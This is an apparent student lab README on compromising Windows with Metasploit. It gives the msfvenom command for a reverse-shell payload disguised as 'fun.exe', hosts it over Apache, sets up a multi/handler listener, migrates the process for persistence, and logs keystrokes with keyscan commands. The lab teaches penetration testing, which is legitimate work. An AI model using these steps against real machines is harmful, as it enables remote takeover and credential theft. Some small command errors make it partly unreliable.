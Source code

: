 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## output:
![1](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/9e296094-7a7a-4442-a34b-fc78fe0ab5f7)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## output:
![2](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/9b424ca4-b9a5-4952-8821-77ca36bce797)

copy the fun.exe into the apache /var/www/html folder

![3](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/4b53c5f6-7ebf-4b1f-b5e9-b1f18c005bf2)

Start apache server sudo systemctl apache2 start

![4](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/41b7c42a-6274-4fe5-a39d-59acec47d01a)

Check the status of apache2

![5](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/c2e7fa2c-1995-4f39-b1c7-ea9d040ddd64)

Invoke msfconsole:

![6](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/4d1cbe37-069c-49ba-8ec6-ca91c0f618fc)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![7](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/da18c686-9c2d-4d41-84de-b2954d9e6abc)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![8](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/ba5cee29-dbf3-4983-85f5-26c3de9696a4)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![9](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/5ba7a8ba-3fdd-4a09-b909-2c25a87df701)

Bypass any warning boxes, double-click the file, and allow it to run.
![10](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/c8a29dd3-7529-4e67-9f34-52cfb8eb3fc3)


On kali give the command exploit
![11](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/026502d0-bdc6-4bb2-a2df-83aebff7d407)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![12](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/d2438350-eb23-4870-85cd-4fff3a594648)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![13](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/170e9e1b-b60f-45e7-a030-e40330dce5d8)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![14](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/cfe4ab27-9fd9-4873-b362-467ff579ca11)

![15](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/e963efa2-dca3-400d-adb0-cca6df87d286)

keyscan_dump Shows the keystrokes captured so far
![16](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/121998147/dfdc8c1d-2a99-49b1-8ca2-2564cf653def)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
